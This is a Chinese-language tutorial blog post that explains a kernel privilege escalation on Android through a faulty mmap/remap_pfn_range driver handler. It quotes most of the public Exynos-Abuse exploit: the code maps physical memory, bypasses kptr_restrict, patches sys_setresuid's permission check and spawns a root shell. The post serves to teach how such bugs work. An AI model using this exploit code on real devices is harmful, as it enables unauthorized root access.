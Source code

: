 ﻿---
layout: post
title: "Privilege Escalation in Kernel 101 - mmap"
date: 2014-03-14 20:39:36 +0530
comments: true
categories: 
---

Privilege Escalation 101
========================

mmap&remap_pfn_range
---------------

#漏洞成因
在一段时期,各个厂商经常出现的漏洞中其中之一就是通过mmap控制全部物理内存.而出现这个问题的原因就是驱动开发人员没有正确地对remap_pfn_range这个函数中的参数做处理.
[mmap man page](http://linux.die.net/man/2/mmap)
[remap_pfn_range 使用方法](http://www.makelinux.net/ldd3/chp-15-sect-2)
下面是mmap的linux API,它的作用是将指定地址和大小的内存映射到用户空间中以便程序进行内存操作,offset传入需要映射的物理地址偏移,length传入需要映射的长度.
``` c
void *mmap(void *addr, size_t length, int prot, int flags,
           int fd, off_t offset);
```
**The mmap function asks to map length bytes starting  at offset  offset from  the  file  (or  other object) specified by the file descriptor fd into memory, preferably at address start.  This  latter  address  is  a hint  only,  and is usually specified as 0.  The actual place where the object is mapped is returned by mmap, and is never 0.**

mmap是用户空间对内核请求映射内存的一个接口,调用这个接口后如果相关驱动支持此操作,会实现一个响应mmap的函数,一般情况下会在这个响应函数中调用remap_pfn_range,下面是linux man page上对remap_pfn_range的一个简单示例：
``` c
static int simple_remap_mmap(struct file *filp, struct vm_area_struct *vma)
{
    if (remap_pfn_range(vma, vma->vm_start, vm->vm_pgoff,
                vma->vm_end - vma->vm_start,
                vma->vm_page_prot))
        return -EAGAIN;

    vma->vm_ops = &simple_remap_vm_ops;
    simple_vma_open(vma);
    return 0;
}
```
如果这段代码被直接用到驱动上,问题就来了,因为vma中的参数是根据用户空间调用mmap时传入的参数构造而成.用户空间可以传入内核代码段的物理地址,并将其标识为可读写,从而修改内核空间的代码.
 
#保护机制

一个程序的内存空间可以分为两个部分,用户空间（user space）、内核空间（kernel space）,在正常情况下,操作系统中运行的程序只能够控制自身用户空间的内存,而内核空间是由操作系统控制,且运行在特权模式.一个程序的凭据（credential）保存了自身uid、权限等信息,而凭据储存在内核空间,所以运行在用户空间的普通程序无法修改自身的凭据,这就是linux的权限控制的一部分,它保证了操作系统的安全性.
```
|--------------|
| kernel space |
|--------------|
| user space   |
|--------------|
```
##获取全部物理地址的操作能力后提权思路
由于系统中存在能够在用户空间操作所有内存（包括内核地址内存）时,普通程序通过修改内核代码段的机器码即可让内核执行任意命令,从而达到提权的目的.

  
#具体案例Exynos-Abuse 
Exynos-Abuse是其中一个最典型的案例,而且这个漏洞的利用代码也早早地公布了出来,从公布的利用代码来对这类漏洞的利用方式进行分析是最有效的方法.
[Exynos-Abuse完整利用代码](https://raw.githubusercontent.com/mwrlabs/mercury-modules/master/metall0id/root/exynosmem/exynos-abuse/jni/exynos-abuse.c)
##获取全部物理地址的操作能力
根据之前介绍过的一样,这个漏洞的利用方式第一步就是**获取全部物理地址的操作能力**,也就是下面这段代码做的工作：
程序打开有漏洞的驱动后,通过mmap调用了内存映射的方法,参数中length和PHYS_OFFSET是至关重要的两个参数.
``` c
  #define PHYS_OFFSET 0x40000000
    ......
  int page_size = sysconf(_SC_PAGE_SIZE);
  int length = page_size * page_size;
    ......
    /* open the door */
  fd = open("/dev/exynos-mem", O_RDWR);//打开有漏洞的驱动
  if (fd == -1) {
    printf("[!] Error opening /dev/exynos-mem\n");
    exit(1);
  }

    /* kernel reside at the start of physical memory, so take some Mb */
  paddr = (unsigned long *)mmap(NULL, length, PROT_READ|PROT_WRITE, MAP_SHARED, fd, PHYS_OFFSET);//调用驱动的mmap对应接口,传入kernel text的起始物理地址
  tmp = paddr;
  if (paddr == MAP_FAILED) {
     printf("[!] Error mmap: %s|%08X\n",strerror(errno), i);
     exit(1);
  }
```
要定位到想要修改的函数地址就需要获取内核符号表,一般情况下在执行打印内核符号表的函数时由于/proc/sys/kptr_restrict的限制,所有符号表地址都会打印为0,.在内核数据段中寻找字符串"%pK %c %s\n",并将其修改为"%p %c %s\n",可以绕过此限制将内核函数的正确地址打印出来.
``` c
    /*
     * search the format string "%pK %c %s\n" in memory
     * and replace "%pK" by "%p" to force display kernel
     * symbols pointer
     修改内核符号表打印函数中的"%pK %c %s\n",并将其修改为"%p %c %s\n"
     */
    for(m = 0; m < length; m += 4) {
        if(*(unsigned long *)tmp == 0x204b7025 && *(unsigned long *)(tmp+1) == 0x25206325 && *(unsigned long *)(tmp+2) == 0x00000a73 ) {
            printf("[*] s_show->seq_printf format string found at: 0x%08X\n", PAGE_OFFSET + m);
            restore_ptr_fmt = tmp;
            *(unsigned long*)tmp = 0x20207025;//找到格式化字符串以后修改之
            found = true;
            break;
        }
        tmp++;
    }

    if (found == false) {
        printf("[!] s_show->seq_printf format string not found\n");
        exit(1);
    }
```
拿到内核符号表后就可以定位需要修改的系统调用setresuid的地址了,查找地址的方法为读取/proc/kallsyms的值,修改上面的格式化字符串后再访问改文件时,获取到的地址已经是正确的内核地址.
``` c
    found = false;

    /* kallsyms now display symbols address */       
    kallsyms = fopen("/proc/kallsyms", "r");
    if (kallsyms == NULL) {
        printf("[!] kallsysms error: %s\n", strerror(errno));
        exit(1);
    }

    /* parse /proc/kallsyms to find sys_setresuid address */
    while((ptr = fgets(line, 512, kallsyms))) {
        str = strtok(ptr, " ");
        addr_sym = strtoul(str, NULL, 16);
        index = 1;
        while(str) {
            str = strtok(NULL, " ");
            index++;
            if (index == 3) {
                if (strncmp("sys_setresuid\n", str, 14) == 0) {
                    printf("[*] sys_setresuid found at 0x%08X\n",addr_sym);
                    found = true;
                }
                break;
            }
        }
```
找到setresuid的地址后开始搜索cmp r0,#0的机器码,找到后通过把setresuid中的cmp r0,#0,修改为cmp r0,#1将权限检查的逻辑取反.
``` c
        if (found) {
            tmp = paddr;
            tmp += (addr_sym - PAGE_OFFSET) >> 2;
            for(m = 0; m < 128; m += 4) {
                if (*(unsigned long *)tmp == 0xe3500000) {
                    printf("[*] patching sys_setresuid at 0x%08X\n",addr_sym+m);
                    restore_ptr_setresuid = tmp;
                    *(unsigned long *)tmp = 0xe3500001;
                    break;
                }
                tmp++;
            }
            break;
        }
    }
```
此时内核代码中setresuid的权限检查逻辑已经取反,之前没有权限执行setresuid的程序现在可以执行成功了.

```c
    fclose(kallsyms);

    /* to be sure memory is updated */
    usleep(100000);

    /* ask for root */
    result = setresuid(0, 0, 0);

    /* restore memory */
    *(unsigned long *)restore_ptr_fmt = 0x204b7025;
    *(unsigned long *)restore_ptr_setresuid = 0xe3500000;
    munmap(paddr, length);
    close(fd);

    if (result) {
        printf("[!] set user root failed: %s\n", strerror(errno));
        exit(1);
    }

    /* execute a root shell */
    execve (cmd[0], cmd, env);

  return 0;
}
```
当execve函数运行时该程序的uid已经设置为0,如果执行的命令为"/system/bin/sh",将会看到命令行的用户由"shell$"变成了"root#".
#小结
以上的例子是在32位系统中没有开启内核代码只读的情况下才能够利用成功,由于攻防的演进,后面Android系统增加了很多诸如内核代码只读、PXN等安全功能,使得漏洞的完美利用更加困难,但通过此例子可以很好的了解内核提权的步骤以及思路.